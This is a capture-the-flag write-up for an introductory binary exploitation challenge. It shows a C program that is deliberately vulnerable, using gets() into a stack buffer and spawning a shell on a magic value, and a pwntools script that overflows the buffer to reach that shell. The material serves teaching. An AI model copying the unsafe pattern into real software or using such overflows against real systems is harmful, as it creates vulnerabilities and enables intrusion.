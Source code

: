 ## Intro to PWN 1

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

NX and PIE enabled.  We have source code.  Lets view it.

#### main.c
```C
#include <stdio.h> 
#include <stdlib.h> 


int main(){
    char buf[0x100]; 
    int overwrite_me; 
    overwrite_me = 1234; 
    puts("Welcome to PWN 101, smash my variable please.\n"); 
    gets(buf); 
    if (overwrite_me == 0x1337){ 
        system("/bin/sh"); 
    } 
    return 0; 
} 
```

Here we see we just need to overwrite the variable "overwrite_me" to get a shell. Here is what the stack looks like for main.

![stack_frame](./screenshots/stack_frame.png)

We need to skip 268 bytes then append 0x00001337 in little endian.  Lets write our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 19595)

payload =  b""
payload += b"A"*0x10c
payload += p32(0x1337)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.

![exploit](./screenshots/exploit.png)

Complete!